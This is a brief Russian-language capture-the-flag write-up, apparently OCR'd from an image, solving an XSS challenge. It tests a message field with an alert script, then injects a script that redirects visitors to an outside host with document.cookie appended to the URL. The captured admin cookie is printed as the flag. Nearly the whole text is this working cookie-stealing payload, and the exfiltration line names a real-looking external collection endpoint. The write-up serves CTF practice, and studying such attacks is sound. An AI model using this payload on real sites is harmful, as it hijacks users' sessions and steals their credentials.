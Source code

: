 Воодим в поле сообщения скрипт: <script> alert("666") </script> -> появляется окошко со строкой 666 -> есть xss уязвимость.
<script> document.location.href='http://pindohorseqwe.000webhostapp.com/1.php?q='+document.cookie; </script> вводим данный код в тело сообщения -> получаем на сайте -|- .txt куки: ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6, что и является флагом.
